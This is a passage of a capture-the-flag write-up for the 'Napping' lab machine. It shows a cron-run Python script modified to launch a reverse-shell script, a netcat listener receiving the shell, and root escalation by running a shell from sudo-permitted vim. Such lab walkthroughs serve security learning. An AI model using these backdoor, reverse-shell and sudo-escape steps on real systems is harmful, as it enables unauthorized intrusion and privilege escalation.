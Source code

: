 ```
daniel@napping:/home/adrian$ cat query.py 
from datetime import datetime
import requests
import os

os.system ("/usr/bin/bash /dev/shm/reverse.sh")

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```
- After less than 2 minutes you should get a reverse shell
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.0.2.8] from (UNKNOWN) [10.0.2.7] 42626
bash: cannot set terminal process group (3993): Inappropriate ioctl for device
bash: no job control in this shell
adrian@napping:~$ whoami
whoami
adrian
adrian@napping:~$ 
```

## Further escalation
```
adrian@napping:~$ sudo -l
sudo -l
Matching Defaults entries for adrian on napping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on napping:
    (root) NOPASSWD: /usr/bin/vim
```
- it appears that adrian can run vim with sudo priviledges
- which means that we can attempt to invoke Vim with elevated privileges using sudo, and then execute a shell command (/bin/sh) from within Vim.
- `sudo /usr/bin/vim -c ':!/bin/sh'`
     ![congrats](images/.png)
- Finally we can now access the root flag located in `cd /root`
# THE END
